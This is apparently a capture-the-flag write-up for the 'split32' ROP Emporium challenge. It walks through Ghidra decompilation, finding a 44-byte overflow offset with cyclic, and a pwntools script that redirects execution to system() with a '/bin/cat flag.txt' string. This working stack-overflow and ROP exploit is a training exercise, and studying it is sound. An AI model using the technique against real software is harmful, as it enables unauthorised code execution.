






# split32 solution

for split32, my goal is to push out the flag inside of `flag.txt`.

first, i make split32 executable locally using `chmod +x split32`.

i then run `file split32`, which gives `split32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=76cb700a2ac0484fb4fa83171a17689b37b9ee8d, not stripped`, so i know split32 is a 32 bit file.

i put the binary into ghidra, and i see the `pwnme` function, which takes in 40 bytes of data and shoves it in a buffer that can handle 96 bytes of data. i could probably do binary overflow here.
```
void pwnme(void)

{
  undefined local_2c [40];
  
  memset(local_2c,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_2c,0x60);
  puts("Thank you!");
  return;
}
```

i also find this `usefulFunction` defined. i see that it is calling system.
```
void usefulFunction(void)

{
  system("/bin/ls");
  return;
}
```

this is very useful as i can use it to call `bin\cat flag.txt` later on. i also see that there is a `"bin\cat flag.txt"` string in the file. 



running `checksec --file=./split32` gives me this. 



NX-bit is set, so this means that DEP (Data Execution Prevention) is in use. this means that data stored on the stack is non-executable, so we have to use ROP (Return Oriented Programming) to bypass this.

now that i know all of this, i can start by creating a cyclic sequence the same way as the past few pwn challenges by running `gdb ./split32` to enter pwndbg before running `cyclic -n 4 100` to get a cyclic sequence to put into the binary. 

i run the binary and paste the cyclic sequence into it, which gives me this. i know now that the program crashes at `0x6161616c`.



i then use `cyclic -l 0x6161616c -n 4` to locate where the offset is, in this case it is an offset of 44. now i know that my payload should be 44 bytes long. 



my goal right now is to call system, then place the address of `/bin/cat flag.txt` in the place of `/bin/ls`. i see that something is being pushed before system, so i check it by running `x/s 0x804870e`. this gives me `\bin\ls`. this means the `system()` call would just execute whatever is called until `\bin\ls`, so i need to replace this with `\bin\cat flag.txt`.



by disassembling `usefulFunction` using disass `usefulFunction`, i find the system call at the address `0x0804861a`. using `search "\bin\cat"`, i find that `bin/cat flag.txt` is at the address `0x0804a030`.

now i can start crafting my payload!
```
from pwn import *

p = process("./split32")

sys = 0x0804861a      # system() address
bincat = 0x0804a030    # address of "/bin/cat"

payload = b"A" * 44 + p32(sys) + p32(bincat)

p.sendline(payload)
p.interactive()
```

which will get me



and voila, i successfully replaced the addresses and pushed out the flag `ROPE{a_placeholder_32byte_flag!}`!


